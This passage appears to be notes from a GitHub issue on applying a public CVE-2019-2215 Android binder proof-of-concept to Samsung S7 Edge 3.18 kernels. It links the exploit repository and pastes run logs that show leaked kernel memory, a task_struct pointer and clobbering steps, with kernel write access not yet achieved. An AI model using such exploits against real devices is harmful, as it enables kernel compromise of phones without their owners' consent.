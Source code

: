 ```
```

## Update 2

Just found this PoC for 3.18 Kernels

https://github.com/arpruss/cve2019-2215-3.18

```
hero2lte:/data/local/tmp $ ./poc98                                             
Starting POC
Leak size 4096
dataBuffer = 699c20
PARENT: Calling WRITEV
CHILD: Doing EPOLL_CTL_DEL.
CHILD: Finished EPOLL_CTL_DEL.
CHILD: initial page
CHILD: dummy data
CHILD: leak data
writev() returns 0x12001
CHILD: Finished write to FIFO.
PARENT: Done with leaking
00000000  a0 2e a1 6c c8 ff ff ff a0 2e a1 6c c8 ff ff ff  |...l.......l....|
00000010  20 9c 69 00 00 00 00 00 01 00 01 00 00 00 00 00  | .i.............|
00000020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000030  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
```

Works great!!!

Game over.

## Update 3

Poc from above works for me only to read kernel, not to write on Samsung S7 Edge


https://github.com/arpruss/cve2019-2215-3.18/issues/5

Will see I can get write access to kernel structs on Samsusng S7 Edge.


Poc run:

```
MAIN: detected kernel version 3
MAIN: starting exploit for devices with waitqueue at 0x98
PARENT: soon will be calling WRITEV
CHILD: Doing EPOLL_CTL_DEL.
CHILD: Finished EPOLL_CTL_DEL.
CHILD: initial portion length 0x12000
CHILD: task_struct_ptr = 0xffffffc01c7abe80
CHILD: clobbering with extra leak structures
PARENT: clobbering at 0xffffffc864b20ea0
CHILD: Doing EPOLL_CTL_DEL.
CHILD: Finished EPOLL_CTL_DEL.
CHILD: wrote 69688
PARENT: readv returns 69688, expected 69688
PARENT: clobbering test passed
CHILD: clobbered
PARENT: writev() returns 0x13008
PARENT: Reading leaked data
```